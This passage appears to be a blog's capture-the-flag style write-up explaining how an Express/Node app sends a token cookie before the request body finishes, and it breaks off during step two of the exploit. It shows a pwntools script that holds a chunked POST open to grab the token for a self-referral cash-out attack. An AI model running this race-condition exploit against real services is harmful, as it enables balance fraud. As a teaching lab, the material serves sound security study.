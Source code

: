 ![route-handler-triggered](/blog/images/2025-04-15-10-46-28.png)

See. The server doesn’t wait for the full body to call the route logic. That's because Express registers handlers early — and starts sending back a response early too.

Why does that matter?

Because in our vulnerable app, the response sets a cookie `(token=...)` before the request finishes. This will give us a small window to do what we want with the **token in the response header**.

## Exploitation

Armed with this newfound knowledge, we know exactly what we need to do: We need to register a user that self-refers himself and cashes out as many times as needed for his account balance to reach the target 100_000_000_000.

We exploit the fact that, in Node's HTTP module, the response headers are sent once the request headers are transmitted, but before the request body is fully processed (no "end" event triggered yet). This allows us to retrieve the token from the response and append it to the rest of the request, enabling the creation of our malicious user.

> the `name` field in the request is not necessary.

Alright, let's get to business. I'll be using [pwntools](https://docs.pwntools.com/en/stable/) to deliver the attack.

1. Create a TCP connection with the server and keep it alive so we can receive the response headers:

```python
from pwn import *

# Creates a TCP or UDP-connection to a remote host. It supports both IPv4 and IPv6.
connection = remote('localhost', 3000)

# Send an HTTP request without closing (server doesn't emit 'end' event)
connection.send(
    (
        b'POST /new HTTP/1.1\r\n'
        b'Host: localhost\r\n'
        b'Transfer-Encoding: chunked\r\n'
        b'Content-Type: application/x-www-form-urlencoded\r\n'
        b'\r\n'
    )
)
# Do simple string manipulation to extract the token from the response headers
token = connection.recv().decode().split('token=')[1].split('\r\n')[0]
```

{{< notice tip >}}
I used Transfer-Encoding: chunked because I didn't bother calculating the length of the code. You can use Content-Length header just fine
{{< /notice >}}

2. Nice, we got the token (our user identifier). Now, let's create a code that refers to this user:

